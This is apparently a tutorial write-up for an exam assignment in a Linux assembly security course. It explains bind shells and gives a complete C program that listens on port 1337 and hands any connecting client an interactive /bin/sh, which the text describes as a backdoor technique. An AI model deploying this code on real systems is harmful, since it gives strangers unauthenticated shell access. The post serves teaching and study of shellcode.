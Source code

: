 A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine. Assignment number 1 for the SecurityTube Linux Assembly Expert exam is to put together a bind shell shellcode. Let's take a further look into this challenge.



What a bind shell looks like in C
---------------------------------

Before jumping straight into coding in assembly, let's take a look at what a bind shell would look like in a slightly higher level programming language:

```c
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // sockfd for host  
int client_sockid;  // sockfd for client  
      
struct sockaddr_in hostaddr;            // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using it  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(1337);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection, don't store data, just use the sockfd created  
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}
```

